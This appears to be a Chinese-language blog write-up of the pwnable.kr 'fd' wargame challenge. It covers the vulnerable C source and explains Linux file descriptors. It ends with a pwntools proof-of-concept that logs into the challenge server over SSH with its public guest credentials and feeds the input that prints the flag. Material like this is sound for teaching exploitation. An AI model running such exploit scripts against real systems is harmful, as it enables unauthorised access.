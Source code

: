 ```yaml
---
layout: post
title: Pwnable-01-fd
description: >
  这是pwnable的第一题fd的解析过程,其中涉及到思路分析
tags: [技术]
author: DshSec
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```

#### pwnable介绍

  ['pwnable.kr'](https://pwnable.kr/index.php)is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. the main purpose of pwnable.kr is 'fun'.    please consider each of the challenges as a game. while playing pwnable.kr, you could learn/improve system hacking skills but that shouldn't be your only purpose.
#### 源代码：

```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  char buf[32];

  int main(int argc, char* argv[], char* envp[]){
      if(argc<2){
  	printf("pass argv[1] a number\n");
  	return 0;
  	}
  	int fd = atoi( argv[1] ) - 0x1234; //atoi把字符串转成整形
  	int len = 0;
  	len = read(fd, buf, 32); //将参数fd所指的文件传送32个字符到buf
  	if(!strcmp("LETMEWIN\n", buf)){     //strcmp(str1,str2),str1=str2返回0，str1<str2返回负数，str1>str2返回正数
  		printf("good job :)\n");        //buf==LETMEWIN\n的时候输出flag
  		system("/bin/cat flag");    
  		exit(0);
  	}
  	printf("learn about Linux file IO\n");
  	return 0;

  }
```
#### 解题思路

```
  目标：执行system(“/bin/cat flag”);
  则：strcmp(“LETMEWIN\n”, buf) == 0
  则：buf = “LETMEWIN\n”
  则：read(fd, buf, 32)将buf设为”LETMEWIN\n”
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
  所以我们可以使fd == 0，然后从终端输入LETMEWIN后回车
  要使fd == 0，
  则：输入的参数 == 0x1234，即4660

  从文件描述符fd所指向的文件中读取count个字节的数据到buf所指向的缓存中。
  文件描述符是由无符号整数表示的句柄，进程使用它来标识打开的文件。
  文件描述符0代表标准文件。
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
```
#### 解答：

先输入0x1234的十进制即4660，然后再输入LETMEWIN
./fd 4660
LETMEWIN

#### poc
```python
  from pwn import *
  pwn_ssh=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
  print(pwn_ssh.connected())
  sh=pwn_ssh.process(argv=['fd','4660'],executable='./fd')
  sh.sendline('LETMEWIN')
  print(sh.recvall())
```
